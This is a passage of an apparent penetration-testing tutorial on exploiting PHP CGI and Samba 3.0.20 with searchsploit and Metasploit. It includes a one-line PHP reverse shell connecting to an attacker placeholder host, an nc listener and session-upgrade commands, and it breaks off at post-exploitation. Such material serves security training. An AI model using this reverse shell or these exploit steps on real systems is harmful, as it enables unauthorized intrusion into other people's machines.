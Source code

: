 > Tip: If an FTP upload only goes to certain directories, try to find any writable directory under the web root (e.g., `/var/www/html`).

---

## Targeting PHP (php-cgi / phpinfo & php-cgi bug PoC)

1. Check for `phpinfo()` pages to learn PHP configuration:

   * Create `phpinfo.php` with `<?php phpinfo(); ?>` and request it.
2. Search for PHP CGI exploits (example exploit id):

   ```bash
   searchsploit php cgi
   searchsploit -m 18836
   ```
3. Some PoCs let you inject a small *payload string* (pwn\_code). Example payload idea (one-line PHP reverse shell in some contexts):

   ```php
   $sock=fsockopen("<LHOST>",1234);exec("/bin/sh -i <&3 >&3 2>&3");
   ```

   * Add the pwn code where the PoC expects it.
   * Start your listener:

     ```bash
     nc -nvlp 1234
     ```
   * Execute the PoC; if it fails, try adjusting descriptor numbers (e.g., change `3` to `4`) and re-run.

---

## Targeting Samba (practical)

1. Enumerate Samba version (gives you the exact version to map to exploits):

   ```text
   # in msfconsole
   use auxiliary/scanner/smb/smb_version
   set RHOSTS <target-ip>
   run
   ```
2. Once you have a version (e.g., `samba 3.0.20`), search for known EXPs:

   ```bash
   searchsploit samba 3.0.20
   ```
3. Metasploit or local PoC:

   * Use the appropriate module or PoC and test in a lab first.
   * After successful exploitation you may get an interactive shell. Upgrade the session if possible:

     ```text
     # in msfconsole
     sessions -i <id>
     session -u <id>   # attempt upgrade
     ```
4. Post-ex actions:
